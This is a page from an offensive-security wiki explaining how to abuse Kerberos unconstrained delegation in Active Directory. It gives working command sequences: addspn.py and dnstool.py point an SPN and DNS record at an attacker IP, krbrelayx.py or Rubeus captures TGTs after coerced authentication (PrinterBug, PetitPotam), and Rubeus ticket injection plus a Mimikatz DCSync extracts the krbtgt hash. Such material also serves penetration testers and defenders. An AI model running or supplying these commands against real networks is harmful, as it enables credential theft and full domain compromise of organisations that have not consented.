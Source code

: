 # (KUD) Unconstrained

## Theory

If an account (user or computer), with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it (or [force it](../../mitm-and-coerced-authentications/)) using Kerberos. The attacker service will receive an ST (service ticket) containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user.

{% hint style="info" %}
Unconstrained delegation abuses are usually combined with the [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug) or [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.
{% endhint %}

![](../../../../.gitbook/assets/Kerberos_delegations-unconstrained.drawio.png)

## Practice

{% tabs %}
{% tab title="From the attacker machine (UNIX-like)" %}
In order to abuse the unconstrained delegations privileges of an account, an attacker must add his machine to its SPNs (i.e. of the compromised account) and add a DNS entry for that name.

This allows targets (e.g. Domain Controllers or Exchange servers) to authenticate back to the attacker machine.

All of this can be done from UNIX-like systems with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and [krbrelayx](https://github.com/dirkjanm/krbrelayx) (Python).

{% hint style="info" %}
When attacking accounts able to delegate without constraints, there are two major scenarios

* **the account is a computer**: computers can edit their own SPNs via the `msDS-AdditionalDnsHostName` attribute. Since ticket received by krbrelayx will be encrypted with AES256 (by default), attackers will need to either supply the right AES256 key for the unconstrained delegations account (`--aesKey` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments).
* **the account is a user**: users can't edit their own SPNs like computers do. Attackers need to control an [account operator](../../privileged-groups.md) (or any other user that has the needed privileges) to edit the user's SPNs. Moreover, since tickets received by krbrelayx will be encrypted with RC4, attackers will need to either supply the NT hash (`-hashes` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments)
{% endhint %}

{% hint style="success" %}
By default, the salt is always

* **For users**: uppercase realm + case sensitive username = `DOMAIN.LOCALuser`
* **For computers**: uppercase realm + the word host + lowercase hostname without the trailing '$' + . + lowercase = `DOMAIN.LOCALmachine.domain.local`
{% endhint %}

```bash
# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# 3. Start the krbrelayx listener (the AES key is used by default by computer accounts to decrypt tickets)
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'

# 4. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
```

{% hint style="warning" %}
In case, for some reason, attacking a Domain Controller doesn't work (i.e. error saying`Ciphertext integrity failed.`) try to attack others (if you're certain the credentials you supplied were correct). Some replication and propagation issues could get in the way.
{% endhint %}

Once the krbrelayx listener is ready, an [authentication coercion attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)) can be operated. The listener will then receive a Kerberos authentication, hence a ST, containing a TGT.
{% endtab %}

{% tab title="From the compromised computer (Windows)" %}
Once the KUD capable host is compromised, [Rubeus](https://github.com/GhostPack/Rubeus) can be used (on the compromised host) as a listener to wait for a user to authenticate, the ST to show up and to extract the TGT it contains.

```bash
Rubeus.exe monitor /interval:5
```

Once the monitor is ready, a [forced authentication attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)) can be operated. Rubeus will then receive an authentication (hence a ST, containing a TGT). The TGT can be used to request a ST for another service.

```bash
Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt
```

Once the ticket is injected, it can natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash.

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://stealthbits.com/blog/unconstrained-delegation-permissions/" %}

{% embed url="https://exploit.ph/user-constrained-delegation.html" %}

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/" %}

